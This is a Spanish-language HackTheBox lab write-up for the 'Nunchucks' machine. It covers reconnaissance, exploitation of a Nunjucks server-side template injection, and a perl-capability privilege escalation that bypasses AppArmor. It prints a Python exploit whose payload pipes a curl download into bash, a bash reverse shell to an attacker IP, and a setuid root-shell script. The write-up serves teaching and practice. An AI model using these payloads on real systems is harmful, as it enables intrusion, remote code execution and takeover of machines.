 ```yaml
---
title: Nunchucks
published: 2025-03-01
image: "./logo.png"
tags: [Easy, SSTI, AppArmor, eJPT, eWPT]
category: HackTheBox
---
```


## Información Básica

### Técnicas vistas

- NodeJS SSTI (Server Side Template Injection)
- AppArmor Profile Bypass (Privilege Escalation)

### Preparación

- eJPT  
- eWPT

***

## Reconocimiento

Comenzaremos el reconocimiento con un escaneo a los puertos abiertos de esta máquina y que servicios y versiones corren en cada uno.

```
sudo nmap -T4 --min-rate 1000 -p- -sCV -oN nmap_report 10.10.11.122
```

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FhGIPLvtURyLqXqZvKEc6%2Fimg1.png?alt=media&#x26;token=d63bc10b-ff0f-4a0f-a699-2a8fc3516b9d" alt=""><figcaption></figcaption></figure>

Podemos ver que hay 3 puertos abiertos uno con el servicio **SSH** y 2 con servicios **HTTP** y **HTTPS**, además vemos que usan el dominio _numchucks.htb_ por lo que lo añadiremos al `/etc/hosts`. Además entraremos al dominio a ver que nos encontramos.

### Ffuf

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FQpyOlFNbK0W4VSchcIlP%2Fimg2.png?alt=media&#x26;token=f8186daf-e4b6-4fd9-9970-39c624fa4998" alt=""><figcaption></figcaption></figure>

Vemos que hay un panel de _Login_ y _SignUp_, pero no funcionan, por lo que podríamos aplicar la técnica de **fuzzing**.

```
ffuf -u https://nunchucks.htb/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt -r -fs 45
```

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FmGGmkSLV1Y2S1v2wGEu1%2Fimg3.png?alt=media&#x26;token=7b90a0af-2567-4639-9fbf-47bd88c4e6ef" alt=""><figcaption></figcaption></figure>

Le hemos tenido que añadir un **-fs 45** porque por defecto si no encontraba un directorio te redirigia a una página de este tamaño. No hay nada interesante por lo que podríamos comprobar si esta utilizando **Virtual Hosting** (_VHOST_):

```
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u https://nunchucks.htb -H "Host: FUZZ.nunchucks.htb" -mc 200 -fs 30589
```

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2Fp4soqiwfyYBM7aHGlkU2%2Fimg4.png?alt=media&#x26;token=a0192f1d-4a22-4df4-bda2-b13497df67c1" alt=""><figcaption></figcaption></figure>

Al igual que antes hubo que aplicar un filtro, pero podemos ver que ha encontrado uno, lo añadiremos también al /etc/hosts y navegaremos a ver que encontramos.

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FCfwpR02AgvK7fImnZvBp%2Fimg5.png?alt=media&#x26;token=1e97c906-d06a-4bbb-9949-971c53c24ff3" alt=""><figcaption></figcaption></figure>

### SSTI

Podemos ver una web simple en la que podemos introducir un email y luego se muestra nuestro input. Esto puede causar muchos problemas si está mal sanitizado. En este caso podemos aprovechar un **SSTI** (_Server Side Template Injection_) que es como introducir un XSS en HTML pero para plantillas como puede ser PUG entre otros. Por lo que probaremos con algo simple.

```
{{2+2}}@gmail.com
```

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2F5YjX1N1tJIQNhPiE6aD4%2Fimg6.png?alt=media&#x26;token=4d031111-aa43-4ddc-89c8-f56d5044e98a" alt=""><figcaption></figcaption></figure>

### WhatWeb

Podemos ver que realiza la operación por lo que es vulnerable. Ahora necesitamos saber que tipo de plantilla esta utilizando, por lo que usaremos **whatweb** para sacar más información.

```
whatweb https://store.nunchucks.htb/
```

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FBLmCIJ7YOm3VjNUjWzWi%2Fimg7.png?alt=media&#x26;token=895b70d9-836b-4c54-a3fe-9074de7710b9" alt=""><figcaption></figcaption></figure>

Podemos ver que corre **Express.js**, veamos que posibles plantillas existen:

* PugJs `#{7*7}` ❎
* Handlebars `${7*7}` ❎
* Nunjucks (Similar al nombre de la máquina) `{{7*7}}` ✅

## Explotación

&#x20;Vamos a crear un exploit en **python** para poder explotar esta vulnerabilidad.


```python
#!/usr/bin/python3

import requests
from urllib3.exceptions import InsecureRequestWarning

def main():
    try:
        # Suppress the warnings from urllib3
        requests.packages.urllib3.disable_warnings(category=InsecureRequestWarning)

        payload = """{{range.constructor("return global.process.mainModule.require('child_process').execSync('curl http://10.10.14.16/index.html | bash ')")()}}"""
        response = requests.post(
            url="https://store.nunchucks.htb/api/submit",
            json={"email": payload},
            verify=False
        )

        if response.status_code == 200:
            print(response.text)
        else:
            print("[x] Something went wrong")
    except Exception as e:
        print(str(e))

if __name__ == "__main__":
    main()
```

```bash
#!/bin/bash

bash -c 'bash -i >& /dev/tcp/10.10.14.16/443 0>&1'
```

Con esto podremos establecer una reverse shell con la que podremos obtener la flag de usuario para luego poder hacer una escalada de privilegios y poder conseguir la root flag.

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FD3TlztcRuyAPhsYwp6tX%2Fimg8.png?alt=media&#x26;token=536becc5-2b02-426d-8b70-20e9ec600e17" alt=""><figcaption></figcaption></figure>

## Escalada de privilegios

Para la escalación vamos a ver que permisos **root** encontramos.

```
find . -perm -4000 -user root 2>/dev/null
```

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FIg4u8M7dzf0rzkuU9A2S%2Fimg9.png?alt=media&#x26;token=60d72c2b-7f63-48b8-9c83-687ebc15e492" alt=""><figcaption></figcaption></figure>

```
getcap / -r 2>/dev/null
```

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2Fs4K9gDsX4pWZseAkMmUb%2Fimg10.png?alt=media&#x26;token=e291ee66-d39e-41c0-914f-607f6bf055b3" alt=""><figcaption></figcaption></figure>

Aclaración de el uso de estos comandos:

#### 1. **`find . -perm -4000 -user root 2>/dev/null`**

* `find .` → Busca archivos en el directorio actual y sus subdirectorios.
* `-perm -4000` → Filtra los archivos que tienen el **bit SUID** activado. Este bit permite que el archivo se ejecute con los permisos de su propietario en lugar de los del usuario que lo ejecuta.
* `-user root` → Filtra los archivos que pertenecen al usuario `root`.
* `2>/dev/null` → Redirige los errores (como permisos denegados) a `/dev/null` para que no se muestren en la salida.

**¿Para qué sirve?**\
Encuentra archivos con permisos **SUID** de `root`, lo que es útil en auditorías de seguridad, ya que estos archivos pueden permitir la escalada de privilegios si tienen vulnerabilidades.

#### 2. **`getcap / -r 2>/dev/null`**

* `getcap / -r` → Busca en todo el sistema (`/`) archivos con **capabilities** activadas y muestra sus capacidades.
* `2>/dev/null` → Redirige los errores a `/dev/null`.

**¿Para qué sirve?**\
Muestra qué archivos tienen **capabilities** activadas en el sistema.\
En lugar de depender de SUID, Linux tiene un sistema de capacidades (`capabilities`) que otorga permisos específicos sin necesidad de ser `root`.\
Por ejemplo, si un binario tiene `cap_net_admin`, puede modificar interfaces de red sin ser `root`.



Una vez aclarado esto vemos que **perl** tiene capabilities activadas las cuales podríamos intentar explotar con:

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FB4zu1VNfRjffiZLMWrcO%2Fimg11.png?alt=media&#x26;token=133f089f-6c88-48cb-ba3c-fe7393e4bf85" alt=""><figcaption></figcaption></figure>

```
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "whoami";'
```

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2Fvz7q99TEUxVajmWWH3ww%2Fimg12.png?alt=media&#x26;token=e0e8c32d-16eb-417f-9bfa-ad5ae1286920" alt=""><figcaption></figcaption></figure>

Vemos que funciona, vamos a intentar lanzar un ping a nosotros mismos:

```
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "ping -c 1 10.10.14.16";'
```

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FrszYcniiuAZuKMhsJBrP%2Fimg13.png?alt=media&#x26;token=fb781d7e-52e0-4d9e-8033-90ac819566a8" alt=""><figcaption></figcaption></figure>

```
sudo tcpdump -ni tun0 icmp
```

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2F7PG7ob9vJYzUpUBp72Rq%2Fimg14.png?alt=media&#x26;token=bf08cb44-3fc4-4890-82cd-940778b88764" alt=""><figcaption></figcaption></figure>

No recibimos nada, es posible que algo lo esté bloqueando. Tras una pequeña búsqueda vemos que está protegiéndolo **AppArmor**, que básicamente es una aplicación de protección contra amenazas en linux. Vamos a comprobar si está activa.

```
find \-name \*apparmor\* 2>/dev/null | grep -vE "var|proc|sys|usr"
```

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FMpuUOb4UpFx31opcEzbr%2Fimg15.png?alt=media&#x26;token=6aa57b94-8e06-4262-a741-b5a8adaf194b" alt=""><figcaption></figcaption></figure>

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2F2aSIlFUJFm8McO4aQf2T%2Fimg16.png?alt=media&#x26;token=b4c80b9d-dea1-4b94-9bf9-c33d99ad2d0c" alt=""><figcaption></figcaption></figure>

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2F9swyXWpxq1cP8kG5JukX%2Fimg17.png?alt=media&#x26;token=374cb54d-aeb9-4f72-be3a-73b076d47c28" alt=""><figcaption></figcaption></figure>

Podemos ver que hay bastante información sobre **apparmor.d**, vamos a ver que hay en `/opt/backup.pl`.

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FqwwXRQU3C6yaoRZXL3Wb%2Fimg18.png?alt=media&#x26;token=d3921caf-dab2-4ff5-90a7-5e90d3b6212d" alt=""><figcaption></figcaption></figure>

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2F6Or04vWcoATYNAqw3FLY%2Fimg19.png?alt=media&#x26;token=8043821e-9e47-4e3b-b033-f27f362cde67" alt=""><figcaption></figcaption></figure>

Vemos que solo tenemos permisos de ejecución y no de escritura. Buscando vulnerabilidades de AppArmor podemos encontrar una relacionada con [perl](https://bugs.launchpad.net/apparmor/+bug/1911431).

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2Fh3MZUVt59BVww1zbo6Xo%2Fimg20.png?alt=media&#x26;token=1467510d-8f85-48b5-bb8e-f74b9bba3726" alt=""><figcaption></figcaption></figure>

Podemos ganar privilegios con el mismo script del **GTFObins** pero usando el _shebang._


```bash
#!/usr/bin/perl

use POSIX qw(setuid);
POSIX::setuid(0);
exec "/bin/sh";
```


<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FyFayqo7H7Mj34gGyViDI%2Fimg21.png?alt=media&#x26;token=5657d109-3ff5-417e-89e8-3d7307df4d6c" alt=""><figcaption></figcaption></figure>

Vemos que después de darle permisos y ejecutarlo, obtenemos la flag root.

[Pwned!](https://labs.hackthebox.com/achievement/machine/1992274/414)

---